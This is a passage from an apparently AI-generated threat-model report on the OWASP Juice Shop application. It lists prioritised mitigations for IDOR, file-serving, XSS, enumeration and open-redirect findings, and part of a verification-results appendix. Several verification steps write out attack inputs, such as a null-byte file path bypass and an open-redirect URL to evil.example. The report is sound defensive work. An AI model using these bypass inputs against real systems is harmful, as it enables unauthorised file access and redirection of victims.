**Verification:** Store a description with a script payload or an element with an event handler and confirm it renders inert or stripped in the product grid.

**Reference:** [CWE-79: Improper Neutralization of Input During Web Page Generation (XSS)](https://cwe.mitre.org/data/definitions/79.html)

---

<a id="m-106"></a>
#### M-106 — Check file type after normalizing the name

**Addresses:**

- 🟡 [F-096](#f-096) — Null byte bypasses FTP file type allow-list

**Weaknesses addressed:** [W-005](#w-005)

**Prevents CWEs:**

- [CWE-22](https://cwe.mitre.org/data/definitions/22.html)

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `routes/fileServer.ts:33`

**How:**

1. Reject names containing a null byte and apply the extension check on the final name.
2. Serve only an explicit file list from ftp.

**Verification:** Request a name with %`00.md` and confirm 403.

---

<a id="m-107"></a>
#### M-107 — Constrain file paths to a safe base directory (F-097)

**Addresses:**

- 🟡 [F-097](#f-097) — Arbitrary file read

**Prevents CWEs:**

- [CWE-73](https://cwe.mitre.org/data/definitions/73.html)

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `routes/dataErasure.ts:107`

**How:**

1. Pass only an explicit allowlist of fields to `res.render` and never accept a layout option from the request.
2. Remove the layout parameter or map it to a fixed set of server-side templates.

**Verification:** POST `/dataerasure` with layout set to a non-allowlisted server file and confirm no file content is rendered.

**Reference:** [CWE-73](https://cwe.mitre.org/data/definitions/73.html)

---

<a id="m-108"></a>
#### M-108 — Validate file name after normalization

**Addresses:**

- 🟡 [F-098](#f-098) — Null byte bypass of file type allowlist

**Prevents CWEs:**

- [CWE-158](https://cwe.mitre.org/data/definitions/158.html)

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `routes/fileServer.ts:28`

**How:**

1. Remove `cutOffPoisonNullByte` and reject any name containing a null byte or percent-encoded null.
2. Apply the extension allowlist to the final name that is passed to `sendFile`.

**Verification:** Request `/ftp/file.bak%2500.md` and confirm a 403 response.

**Reference:** [CWE-158](https://cwe.mitre.org/data/definitions/158.html)

---

<a id="m-109"></a>
#### M-109 — Restrict memory listing fields and require auth

**Addresses:**

- 🟡 [F-099](#f-099) — Unauthenticated memories list returns user records

**Weaknesses addressed:** [W-030](#w-030)

**Prevents CWEs:**

- [CWE-200](https://cwe.mitre.org/data/definitions/200.html) - Exposure of Sensitive Information

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `routes/memory.ts:24`

**How:**

1. Add `security.isAuthorized()` to the route.
2. Select only needed user attributes (such as username) in the include.

**Verification:** Call GET `/rest/memories` unauthenticated and confirm 401, and authenticated responses contain no email or hash fields.

**Reference:** [CWE-200: Exposure of Sensitive Information to an Unauthorized Actor](https://cwe.mitre.org/data/definitions/200.html)

---

<a id="m-110"></a>
#### M-110 — Require auth and allowlist config fields

**Addresses:**

- 🟡 [F-100](#f-100) — Unauthenticated application configuration endpoint

**Weaknesses addressed:** [W-031](#w-031)

**Prevents CWEs:**

- [CWE-200](https://cwe.mitre.org/data/definitions/200.html) - Exposure of Sensitive Information

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `server.ts:607`

**How:**

1. Protect the route with `isAuthorized` and an admin role check.
2. Return an explicit allowlist of client-needed fields instead of the full config.

**Verification:** Request the endpoint unauthenticated and confirm 401, and confirm authenticated output has only allowlisted keys.

---

<a id="m-111"></a>
#### M-111 — Return uniform responses for known and unknown emails

**Addresses:**

- 🟡 [F-101](#f-101) — Security question endpoint reveals

**Prevents CWEs:**

- [CWE-204](https://cwe.mitre.org/data/definitions/204.html)

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `routes/securityQuestion.ts:21`

**How:**

1. Return an identical response shape for existing and non-existing accounts, for example a generic question.
2. Add rate limiting on the endpoint keyed on a trustworthy client address.

**Verification:** Request with a known and an unknown email and confirm the responses are indistinguishable.

---

<a id="m-112"></a>
#### M-112 — Return uniform response for recovery lookups

**Addresses:**

- 🟡 [F-102](#f-102) — Account enumeration

**Prevents CWEs:**

- [CWE-204](https://cwe.mitre.org/data/definitions/204.html)

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `routes/securityQuestion.ts:23`

**How:**

1. Return the same response shape whether or not the email exists.
2. Add rate limiting that does not trust X-Forwarded-For.

**Verification:** Query an existing and a nonexistent email and confirm responses are indistinguishable.

**Reference:** [CWE-204](https://cwe.mitre.org/data/definitions/204.html)

---

<a id="m-113"></a>
#### M-113 — Protect the metrics endpoint

**Addresses:**

- 🟡 [F-103](#f-103) — Unauthenticated Prometheus metrics endpoint

**Weaknesses addressed:** [W-004](#w-004)

**Prevents CWEs:**

- [CWE-306](https://cwe.mitre.org/data/definitions/306.html)

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `server.ts:676`

**How:**

1. Require authentication or restrict `/metrics` to an internal network or separate port.
2. Remove business totals from public metrics.

**Verification:** Request `/metrics` from an unauthenticated client and confirm 401 or 403.

**Reference:** [CWE-306: Missing Authentication for Critical Function](https://cwe.mitre.org/data/definitions/306.html)

---

<a id="m-114"></a>
#### M-114 — Restrict CORS to trusted origins

**Addresses:**

- 🟡 [F-104](#f-104) — Whoami exposes session data

**Prevents CWEs:**

- [CWE-346](https://cwe.mitre.org/data/definitions/346.html) - Origin Validation Error

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `routes/currentUser.ts:58`

**How:**

1. Drop the callback/jsonp branch.
2. Allowlist fields to id, email, `lastLoginIp` and `profileImage`.

**Verification:** Request with callback and `fields=password` and confirm plain JSON without password.

---

<a id="m-115"></a>
#### M-115 — Require authorization for log file access

**Addresses:**

- 🟡 [F-105](#f-105) — Log files served to any caller

**Weaknesses addressed:** [W-041](#w-041)

**Prevents CWEs:**

- [CWE-548](https://cwe.mitre.org/data/definitions/548.html)

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `routes/logfileServer.ts:14`

**How:**

1. Remove the public log route or place it behind an admin-only guard.
2. Remove the directory listing on the logs folder.

**Verification:** Request `/support/logs/``&lt;file&gt;` without credentials and confirm 401 or 403.

---

<a id="m-116"></a>
#### M-116 — Stop serving the encryption keys folder

**Addresses:**

- 🟡 [F-106](#f-106) — Encryption keys folder listed and served publicly

**Weaknesses addressed:** [W-042](#w-042)

**Prevents CWEs:**

- [CWE-548](https://cwe.mitre.org/data/definitions/548.html)

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `server.ts:277`

**How:**

1. Remove the `serveIndex` and file routes for encryptionkeys.
2. Keep key files outside web-reachable directories.

**Verification:** Request `/encryptionkeys` and a known file and confirm 404.

---

<a id="m-117"></a>
#### M-117 — Enforce object-level (ownership) authorization (F-107)

**Addresses:**

- 🟡 [F-107](#f-107) — Data export finds orders by non-unique masked e-mail

**Weaknesses addressed:** [W-007](#w-007)

**Prevents CWEs:**

- [CWE-639](https://cwe.mitre.org/data/definitions/639.html) - Authorization Bypass Through User-Controlled Key (IDOR)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `routes/dataExport.ts:33`

**How:**

1. Store the user id in each order and query by it.
2. Do not use the masked e-mail as a key.

**Verification:** Create two accounts with colliding masked e-mails and confirm an export contains only the caller's orders.

---

<a id="m-118"></a>
#### M-118 — Query order history by the exact authenticated identity

**Addresses:**

- 🟡 [F-108](#f-108) — Order history matches orders by masked email

**Weaknesses addressed:** [W-007](#w-007)

**Prevents CWEs:**

- [CWE-639](https://cwe.mitre.org/data/definitions/639.html) - Authorization Bypass Through User-Controlled Key (IDOR)

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `routes/orderHistory.ts:17`

**How:**

1. Store a unique user reference on orders and filter by it.
2. Remove the vowel masking from the query key.

**Verification:** Create two accounts with colliding masked emails and confirm each sees only its own orders.

---

<a id="m-119"></a>
#### M-119 — Enforce object-level (ownership) authorization (F-109)

**Addresses:**

- 🟡 [F-109](#f-109) — Order tracking returns any order by identifier

**Weaknesses addressed:** [W-007](#w-007)

**Prevents CWEs:**

- [CWE-639](https://cwe.mitre.org/data/definitions/639.html) - Authorization Bypass Through User-Controlled Key (IDOR)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `routes/trackOrder.ts:18`

**How:**

1. Require authentication on the route.
2. Return only orders whose owner matches the authenticated user.

**Verification:** Request another user's order id with a different account and confirm a 403 or empty result.

---

<a id="m-120"></a>
#### M-120 — Keep captcha answers server-side and single-use

**Addresses:**

- 🟡 [F-110](#f-110) — Captcha answer returned to client and reusable

**Prevents CWEs:**

- [CWE-804](https://cwe.mitre.org/data/definitions/804.html)

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `routes/captcha.ts:31`

**How:**

1. Omit answer from the response and delete the captcha record after one verification attempt.
2. Add expiry to stored captchas.

**Verification:** Confirm response has no answer field and a second submit with the same id fails.

---

<a id="m-121"></a>
#### M-121 — Encrypt sensitive columns

**Addresses:**

- 🟡 [F-111](#f-111) — Card numbers and TOTP secrets stored unencrypted

**Weaknesses addressed:** [W-035](#w-035)

**Prevents CWEs:**

- [CWE-311](https://cwe.mitre.org/data/definitions/311.html)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `models/card.ts:38`

**How:**

1. Encrypt `cardNum` and `totpSecret` with an authenticated cipher via model setters/getters, keys held outside the database.
2. Store only tokenized or truncated card data where possible.

**Verification:** Inspect the SQLite file and confirm the card and TOTP columns contain ciphertext only.

---

<a id="m-122"></a>
#### M-122 — Send tokens in headers and drop the implicit grant

**Addresses:**

- 🟡 [F-112](#f-112) — OAuth access token passed in URL fragment and query string

**Weaknesses addressed:** [W-037](#w-037)

**Prevents CWEs:**

- [CWE-598](https://cwe.mitre.org/data/definitions/598.html)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `frontend/src/app/Services/user.service.ts:68`

**How:**

1. Drop the implicit grant and use the authorization code flow with PKCE.
2. Send tokens only in the `Authorization` header, never in a URL.

**Verification:** Inspect network requests during sign-in and confirm no token appears in any URL.

---

<a id="m-123"></a>
#### M-123 — Scope notifications to authenticated sessions

**Addresses:**

- 🟡 [F-113](#f-113) — Challenge flags replayed to every connecting

**Prevents CWEs:**

- [CWE-200](https://cwe.mitre.org/data/definitions/200.html) - Exposure of Sensitive Information

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `lib/startup/registerWebsocketEvents.ts:30`

**How:**

1. Require authentication before replaying notifications.
2. Store notifications per session/user and omit the flag field from broadcast payloads.

**Verification:** Connect an unauthenticated client after a challenge is solved and confirm no 'challenge solved' event with a flag is received.

**Reference:** [CWE-200: Exposure of Sensitive Information to an Unauthorized Actor](https://cwe.mitre.org/data/definitions/200.html)

---

<a id="m-124"></a>
#### M-124 — Restrict user listing to admins and trim fields

**Addresses:**

- 🟡 [F-114](#f-114) — User listing exposes sensitive fields to any

**Weaknesses addressed:** [W-032](#w-032)

**Prevents CWEs:**

- [CWE-200](https://cwe.mitre.org/data/definitions/200.html) - Exposure of Sensitive Information

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `routes/authenticatedUsers.ts:25`

**How:**

1. Add an admin role check to the route.
2. Return an explicit allowlist of non-sensitive fields.

**Verification:** Call the endpoint as a customer and confirm 403.

---

<a id="m-125"></a>
#### M-125 — Rate-limit expensive requests and bound input size

**Addresses:**

- 🟡 [F-115](#f-115) — Event loop blocked by busy-wait sleep

**Weaknesses addressed:** [W-013](#w-013)

**Prevents CWEs:**

- [CWE-400](https://cwe.mitre.org/data/definitions/400.html) - Uncontrolled Resource Consumption

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `routes/showProductReviews.ts:23`

**How:**

1. Delete the `global.sleep` busy-wait function.
2. Add per-client rate limiting on review endpoints.

**Verification:** Send concurrent injected sleep requests and confirm other endpoints stay responsive or the payload is rejected.

**Reference:** [CWE-400: Uncontrolled Resource Consumption](https://cwe.mitre.org/data/definitions/400.html)

---

<a id="m-126"></a>
#### M-126 — Type-check payloads and wrap handlers

**Addresses:**

- 🟡 [F-116](#f-116) — Unvalidated event payload types throw

**Weaknesses addressed:** [W-005](#w-005)

**Prevents CWEs:**

- [CWE-20](https://cwe.mitre.org/data/definitions/20.html)

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `lib/startup/registerWebsocketEvents.ts:46`

**How:**

1. Check typeof data === 'string' and bound its length before matching or calling contains.
2. Wrap each handler in try/catch and add rate limiting per socket.

**Verification:** Emit object, number and oversized payloads to each verify event and confirm the server stays up and ignores them.

**Reference:** [CWE-20: Improper Input Validation](https://cwe.mitre.org/data/definitions/20.html)

---

<a id="m-127"></a>
#### M-127 — Enforce discount range and eligibility server-side

**Addresses:**

- 🟡 [F-117](#f-117) — Chatbot coupon tool accepts unbounded discount

**Prevents CWEs:**

- [CWE-20](https://cwe.mitre.org/data/definitions/20.html)

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `routes/chat.ts:184`

**How:**

1. Constrain the schema with `z.number().min(1).max(10)` and re-check in execute.
2. Verify the damaged-order eligibility server-side before issuing a coupon.
3. Require human approval for coupon issuance.

**Verification:** Invoke `generateCoupon` with discount 50 and confirm execute rejects it without producing a coupon code.

---

<a id="m-128"></a>
#### M-128 — Restrict feedback deletion to admins

**Addresses:**

- 🟡 [F-118](#f-118) — Any logged-in user can delete any feedback

**Weaknesses addressed:** [W-007](#w-007)

**Prevents CWEs:**

- [CWE-639](https://cwe.mitre.org/data/definitions/639.html) - Authorization Bypass Through User-Controlled Key (IDOR)

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `server.ts:501`

**How:**

1. Add an admin role check to DELETE `/api/Feedbacks/:id`.
2. Deny the route for non-admin callers.

**Verification:** A customer DELETE on another user's feedback returns 403 and the record remains.

---

<a id="m-129"></a>
#### M-129 — Bind basket item access to the caller's basket

**Addresses:**

- 🟡 [F-119](#f-119) — Basket items readable and deletable across users

**Weaknesses addressed:** [W-007](#w-007)

**Prevents CWEs:**

- [CWE-639](https://cwe.mitre.org/data/definitions/639.html) - Authorization Bypass Through User-Controlled Key (IDOR)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `server.ts:501`

**How:**

1. Add middleware that loads the BasketItem and compares its basket owner to the authenticated user.
2. Apply it to the GET and DELETE routes before finale.

**Verification:** User A requesting or deleting user B's basket item gets 403 or 404.

---

<a id="m-130"></a>
#### M-130 — Add top-level read-only permissions blocks

**Addresses:**

- 🟡 [F-121](#f-121) — Workflows without explicit least-privilege permissions

**Weaknesses addressed:** [W-022](#w-022)

**Prevents CWEs:**

- [CWE-269](https://cwe.mitre.org/data/definitions/269.html)

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `.github/workflows/ci.yml:1`

**How:**

1. Add permissions: contents: read at workflow top level and grant write scopes per job only where needed.
2. Set the repository default workflow permission to read-only.

**Verification:** Inspect each workflow for a permissions key and confirm the token scope in run logs.

**Reference:** [CWE-269: Improper Privilege Management](https://cwe.mitre.org/data/definitions/269.html)

---

<a id="m-131"></a>
#### M-131 — Use exact-match redirect allowlist

**Addresses:**

- 🟡 [F-123](#f-123) — Open redirect

**Prevents CWEs:**

- [CWE-601](https://cwe.mitre.org/data/definitions/601.html)

**Priority:** P3 - Next Quarter · **Effort:** Low · **File:** `routes/redirect.ts:16`

**How:**

1. Compare the parsed URL against the allowlist with exact equality.
2. Reject any URL not in the set.

**Verification:** Request `/redirect?to`=`https://evil.example/?https://github.com/juice-shop/juice-shop` and confirm 406.

---

### P4 — Backlog

_No P4 mitigations._

---

## 11. Out of Scope

### Not Covered by This Method

An automated, AI-assisted threat model built from the repository's source code and configuration - static analysis only, no dynamic or penetration testing. It models the system as built rather than as designed. It does not replace a threat-modeling session with the team: business context, design intent, runtime behaviour and production configuration are not covered, and each finding still needs confirmation in the deployed system.

- Design intent and the reasoning behind it - no design documents, ADRs or workshop context are read.
- Business processes and user journeys that leave the code.
- Runtime behaviour, deployment topology and production-only configuration.
- External and organizational controls.

Treat this report as review input, not sign-off.

### Excluded from This Assessment

The following items are **explicitly excluded** from this threat model. Findings against these areas should be tracked separately.

- Third-party hosted dependencies and SaaS endpoints
- Browser runtime vulnerabilities and end-user device security
- Operating system kernel and container runtime
- Underlying network infrastructure (DNS, BGP, ISP)
- Physical security of hosting facilities
- Opt-in threat actors, not assessed: malicious insiders with repository or pipeline access; malicious insiders with production access; attackers holding a user's device. Enable them with `enable:` in `.appsec/actors.yaml`.

---

<a id="appendix-verification-items"></a>
## Appendix: Verification Items

Verification checks fixed security properties item by item (catalog version 6). Results per item and component in this run: 33 findings · 1 controls · 1 partial · 16 no finding · 16 undecidable · 176 not applicable. A control means that the examined code enforces the property at every place it applies; a partial, undecidable or no-finding result is never a control, and neither is an item this run did not examine.

### Results that need attention

<table style="table-layout:fixed;width:100%;max-width:1240px">
<colgroup><col width="34%" style="width:34%"><col width="20%" style="width:20%"><col width="17%" style="width:17%"><col width="29%" style="width:29%"></colgroup>
<thead><tr><th>Verification item</th><th>Where</th><th>Result</th><th>Findings</th></tr></thead>
<tbody>
<tr><td rowspan="2" style="overflow-wrap:break-word;background:none"><a id="tc-input-01"></a><a href="#tc-input-01">TC-INPUT-01</a> Database queries are parameterized</td><td style="overflow-wrap:break-word;background:none">Juice Shop Express Server</td><td style="overflow-wrap:break-word;background:none">Fails at 2 of 2 locations</td><td style="overflow-wrap:break-word;background:none">🔴&nbsp;<span style="white-space:nowrap"><a href="#f-004">F-004</a></span></td></tr>
<tr><td style="overflow-wrap:break-word;background:none">Authentication &amp; Session Surface</td><td style="overflow-wrap:break-word;background:none">Fails at 2 of 2 locations</td><td style="overflow-wrap:break-word;background:none">🔴&nbsp;<span style="white-space:nowrap"><a href="#f-011">F-011</a></span></td></tr>
<tr><td rowspan="1" style="overflow-wrap:break-word;background:none"><a id="tc-input-03"></a><a href="#tc-input-03">TC-INPUT-03</a> Input cannot reach OS commands, code evaluation, or template compilation</td><td style="overflow-wrap:break-word;background:none">Juice Shop Express Server</td><td style="overflow-wrap:break-word;background:none">Fails at 5 of 6 locations</td><td style="overflow-wrap:break-word;background:none">🔴&nbsp;<span style="white-space:nowrap"><a href="#f-012">F-012</a></span><br/>🟠&nbsp;<span style="white-space:nowrap"><a href="#f-025">F-025</a></span>, <span style="white-space:nowrap"><a href="#f-037">F-037</a></span></td></tr>
<tr><td rowspan="3" style="overflow-wrap:break-word;background:none"><a id="tc-authz-01"></a><a href="#tc-authz-01">TC-AUTHZ-01</a> Object access checks the owner</td><td style="overflow-wrap:break-word;background:none">Juice Shop Express Server</td><td style="overflow-wrap:break-word;background:none">Fails at 22 of 81 locations<br/>Protection found at 48 locations (model review only)<br/>9 locations unresolved<br/><em>model review only</em></td><td style="overflow-wrap:break-word;background:none">🟠&nbsp;<span style="white-space:nowrap"><a href="#f-002">F-002</a></span>, <span style="white-space:nowrap"><a href="#f-030">F-030</a></span>, <span style="white-space:nowrap"><a href="#f-042">F-042</a></span>, <span style="white-space:nowrap"><a href="#f-050">F-050</a></span>, <span style="white-space:nowrap"><a href="#f-051">F-051</a></span>, <span style="white-space:nowrap"><a href="#f-052">F-052</a></span>, <span style="white-space:nowrap"><a href="#f-053">F-053</a></span>, <span style="white-space:nowrap"><a href="#f-063">F-063</a></span><br/>🟡&nbsp;<span style="white-space:nowrap"><a href="#f-072">F-072</a></span>, <span style="white-space:nowrap"><a href="#f-084">F-084</a></span>, <span style="white-space:nowrap"><a href="#f-085">F-085</a></span>, <span style="white-space:nowrap"><a href="#f-107">F-107</a></span>, <span style="white-space:nowrap"><a href="#f-109">F-109</a></span>, <span style="white-space:nowrap"><a href="#f-118">F-118</a></span>, <span style="white-space:nowrap"><a href="#f-119">F-119</a></span></td></tr>
<tr><td style="overflow-wrap:break-word;background:none">Authentication &amp; Session Surface</td><td style="overflow-wrap:break-word;background:none">Fails at 1 of 7 locations<br/>Protection found at 2 locations (model review only)<br/>4 locations unresolved</td><td style="overflow-wrap:break-word;background:none">🟠&nbsp;<span style="white-space:nowrap"><a href="#f-002">F-002</a></span></td></tr>
<tr><td style="overflow-wrap:break-word;background:none">Web3 / Wallet / NFT Surface</td><td style="overflow-wrap:break-word;background:none">Fails at 1 of 1 location</td><td style="overflow-wrap:break-word;background:none">🟢&nbsp;1 not reported</td></tr>
<tr><td rowspan="2" style="overflow-wrap:break-word;background:none"><a id="tc-authz-02"></a><a href="#tc-authz-02">TC-AUTHZ-02</a> Privileged operations check the role or permission</td><td style="overflow-wrap:break-word;background:none">Juice Shop Express Server</td><td style="overflow-wrap:break-word;background:none">Fails at 12 of 49 locations<br/>Protection found at 30 locations (model review only)<br/>5 locations unresolved</td><td style="overflow-wrap:break-word;background:none">🟠&nbsp;<span style="white-space:nowrap"><a href="#f-042">F-042</a></span>, <span style="white-space:nowrap"><a href="#f-057">F-057</a></span>, <span style="white-space:nowrap"><a href="#f-058">F-058</a></span>, <span style="white-space:nowrap"><a href="#f-060">F-060</a></span>, <span style="white-space:nowrap"><a href="#f-061">F-061</a></span>, <span style="white-space:nowrap"><a href="#f-063">F-063</a></span><br/>🟡&nbsp;<span style="white-space:nowrap"><a href="#f-108">F-108</a></span>, <span style="white-space:nowrap"><a href="#f-118">F-118</a></span>, <span style="white-space:nowrap"><a href="#f-119">F-119</a></span><br/>🟢&nbsp;1 not reported</td></tr>
<tr><td style="overflow-wrap:break-word;background:none">Authentication &amp; Session Surface</td><td style="overflow-wrap:break-word;background:none">Fails at 1 of 6 locations<br/>Protection found at 5 locations (model review only)</td><td style="overflow-wrap:break-word;background:none">🟠&nbsp;<span style="white-space:nowrap"><a href="#f-069">F-069</a></span></td></tr>
<tr><td rowspan="1" style="overflow-wrap:break-word;background:none"><a id="tc-authz-03"></a><a href="#tc-authz-03">TC-AUTHZ-03</a> Request bodies cannot set privileged fields</td><td style="overflow-wrap:break-word;background:none">Juice Shop Express Server</td><td style="overflow-wrap:break-word;background:none">Fails at 13 of 37 locations<br/>Protection found at 18 locations (model review only)<br/>1 location unresolved<br/><em>model review only</em></td><td style="overflow-wrap:break-word;background:none">🟠&nbsp;<span style="white-space:nowrap"><a href="#f-030">F-030</a></span>, <span style="white-space:nowrap"><a href="#f-051">F-051</a></span>, <span style="white-space:nowrap"><a href="#f-061">F-061</a></span>, <span style="white-space:nowrap"><a href="#f-063">F-063</a></span>, <span style="white-space:nowrap"><a href="#f-066">F-066</a></span>, <span style="white-space:nowrap"><a href="#f-067">F-067</a></span>, <span style="white-space:nowrap"><a href="#f-068">F-068</a></span><br/>🟡&nbsp;<span style="white-space:nowrap"><a href="#f-072">F-072</a></span>, <span style="white-space:nowrap"><a href="#f-084">F-084</a></span>, <span style="white-space:nowrap"><a href="#f-085">F-085</a></span><br/>🟢&nbsp;1 not reported</td></tr>
<tr><td rowspan="3" style="overflow-wrap:break-word;background:none"><a id="tc-authn-04"></a><a href="#tc-authn-04">TC-AUTHN-04</a> Passwords are strong and stored with an adaptive hash</td><td style="overflow-wrap:break-word;background:none">Juice Shop Express Server</td><td style="overflow-wrap:break-word;background:none">Fails at 1 of 1 location<br/><em>model review only</em></td><td style="overflow-wrap:break-word;background:none">🟠&nbsp;<span style="white-space:nowrap"><a href="#f-043">F-043</a></span></td></tr>
<tr><td style="overflow-wrap:break-word;background:none">Sequelize application data access</td><td style="overflow-wrap:break-word;background:none">Fails at 1 of 1 location</td><td style="overflow-wrap:break-word;background:none">🟠&nbsp;<span style="white-space:nowrap"><a href="#f-045">F-045</a></span></td></tr>
<tr><td style="overflow-wrap:break-word;background:none">Authentication &amp; Session Surface</td><td style="overflow-wrap:break-word;background:none">Fails at 5 of 12 locations</td><td style="overflow-wrap:break-word;background:none">🟠&nbsp;<span style="white-space:nowrap"><a href="#f-047">F-047</a></span></td></tr>
<tr><td rowspan="1" style="overflow-wrap:break-word;background:none"><a id="tc-input-02"></a><a href="#tc-input-02">TC-INPUT-02</a> NoSQL predicates are not built from input</td><td style="overflow-wrap:break-word;background:none">Juice Shop Express Server</td><td style="overflow-wrap:break-word;background:none">Fails at 6 of 10 locations<br/>Protection found at 3 locations (model review only)</td><td style="overflow-wrap:break-word;background:none">🟠&nbsp;<span style="white-space:nowrap"><a href="#f-033">F-033</a></span>, <span style="white-space:nowrap"><a href="#f-034">F-034</a></span>, <span style="white-space:nowrap"><a href="#f-035">F-035</a></span><br/>🟢&nbsp;1 not reported</td></tr>
<tr><td rowspan="1" style="overflow-wrap:break-word;background:none"><a id="tc-file-01"></a><a href="#tc-file-01">TC-FILE-01</a> File paths stay within intended directories and files are served only as intended</td><td style="overflow-wrap:break-word;background:none">Juice Shop Express Server</td><td style="overflow-wrap:break-word;background:none">Fails at 5 of 8 locations<br/>Protection found at 1 location (model review only)<br/><em>model review only</em></td><td style="overflow-wrap:break-word;background:none">🟠&nbsp;<span style="white-space:nowrap"><a href="#f-023">F-023</a></span>, <span style="white-space:nowrap"><a href="#f-024">F-024</a></span><br/>🟡&nbsp;<span style="white-space:nowrap"><a href="#f-096">F-096</a></span>, <span style="white-space:nowrap"><a href="#f-105">F-105</a></span>, <span style="white-space:nowrap"><a href="#f-106">F-106</a></span></td></tr>
<tr><td rowspan="2" style="overflow-wrap:break-word;background:none"><a id="tc-authn-05"></a><a href="#tc-authn-05">TC-AUTHN-05</a> Recovery, re-authentication, and login responses resist takeover and enumeration</td><td style="overflow-wrap:break-word;background:none">Juice Shop Express Server</td><td style="overflow-wrap:break-word;background:none">Fails at 2 of 2 locations</td><td style="overflow-wrap:break-word;background:none">🟠&nbsp;<span style="white-space:nowrap"><a href="#f-015">F-015</a></span><br/>🟡&nbsp;<span style="white-space:nowrap"><a href="#f-101">F-101</a></span></td></tr>
<tr><td style="overflow-wrap:break-word;background:none">Authentication &amp; Session Surface</td><td style="overflow-wrap:break-word;background:none">Fails at 2 of 9 locations<br/>Protection found at 3 locations (model review only)</td><td style="overflow-wrap:break-word;background:none">🟠&nbsp;<span style="white-space:nowrap"><a href="#f-022">F-022</a></span></td></tr>
<tr><td rowspan="1" style="overflow-wrap:break-word;background:none"><a id="tc-input-04"></a><a href="#tc-input-04">TC-INPUT-04</a> Output is encoded for its context, including DOM sinks</td><td style="overflow-wrap:break-word;background:none">Angular Frontend</td><td style="overflow-wrap:break-word;background:none">Fails at 15 of 23 locations</td><td style="overflow-wrap:break-word;background:none">🟠&nbsp;<span style="white-space:nowrap"><a href="#f-001">F-001</a></span><br/>🟡&nbsp;<span style="white-space:nowrap"><a href="#f-093">F-093</a></span>, <span style="white-space:nowrap"><a href="#f-094">F-094</a></span>, <span style="white-space:nowrap"><a href="#f-095">F-095</a></span></td></tr>
<tr><td rowspan="1" style="overflow-wrap:break-word;background:none"><a id="tc-file-02"></a><a href="#tc-file-02">TC-FILE-02</a> Uploads and archives are type-checked, size-limited, and extracted safely</td><td style="overflow-wrap:break-word;background:none">Juice Shop Express Server</td><td style="overflow-wrap:break-word;background:none">Fails at 4 of 7 locations<br/>Protection found at 1 location (model review only)</td><td style="overflow-wrap:break-word;background:none">🟠&nbsp;<span style="white-space:nowrap"><a href="#f-024">F-024</a></span><br/>🟡&nbsp;<span style="white-space:nowrap"><a href="#f-081">F-081</a></span>, <span style="white-space:nowrap"><a href="#f-082">F-082</a></span></td></tr>
<tr><td rowspan="1" style="overflow-wrap:break-word;background:none"><a id="tc-authn-07"></a><a href="#tc-authn-07">TC-AUTHN-07</a> Credentials and tokens travel only by secure authentication methods</td><td style="overflow-wrap:break-word;background:none">Angular Frontend</td><td style="overflow-wrap:break-word;background:none">Fails at 5 of 5 locations</td><td style="overflow-wrap:break-word;background:none">🟠&nbsp;<span style="white-space:nowrap"><a href="#f-017">F-017</a></span><br/>🟡&nbsp;<span style="white-space:nowrap"><a href="#f-112">F-112</a></span></td></tr>
<tr><td rowspan="1" style="overflow-wrap:break-word;background:none"><a id="tc-authn-06"></a><a href="#tc-authn-06">TC-AUTHN-06</a> SSO and OAuth sign-in binds each response to its request and validates the identity it receives</td><td style="overflow-wrap:break-word;background:none">Angular Frontend</td><td style="overflow-wrap:break-word;background:none">Fails at 3 of 3 locations</td><td style="overflow-wrap:break-word;background:none">🟠&nbsp;<span style="white-space:nowrap"><a href="#f-016">F-016</a></span></td></tr>
<tr><td rowspan="1" style="overflow-wrap:break-word;background:none"><a id="tc-authz-06"></a><a href="#tc-authz-06">TC-AUTHZ-06</a> Callers cannot read or change data beyond their rights</td><td style="overflow-wrap:break-word;background:none">Juice Shop Express Server</td><td style="overflow-wrap:break-word;background:none">Fails at 1 of 1 location</td><td style="overflow-wrap:break-word;background:none">🟠&nbsp;<span style="white-space:nowrap"><a href="#f-027">F-027</a></span></td></tr>
<tr><td rowspan="1" style="overflow-wrap:break-word;background:none"><a id="tc-input-05"></a><a href="#tc-input-05">TC-INPUT-05</a> Outbound requests cannot be steered to unintended destinations</td><td style="overflow-wrap:break-word;background:none">Juice Shop Express Server</td><td style="overflow-wrap:break-word;background:none">Fails at 1 of 1 location</td><td style="overflow-wrap:break-word;background:none">🟠&nbsp;<span style="white-space:nowrap"><a href="#f-044">F-044</a></span></td></tr>
<tr><td rowspan="1" style="overflow-wrap:break-word;background:none"><a id="tc-input-06"></a><a href="#tc-input-06">TC-INPUT-06</a> Parsers reject external entities and unsafe deserialization</td><td style="overflow-wrap:break-word;background:none">Juice Shop Express Server</td><td style="overflow-wrap:break-word;background:none">Fails at 1 of 2 locations<br/>1 location unresolved</td><td style="overflow-wrap:break-word;background:none">🟠&nbsp;<span style="white-space:nowrap"><a href="#f-041">F-041</a></span></td></tr>
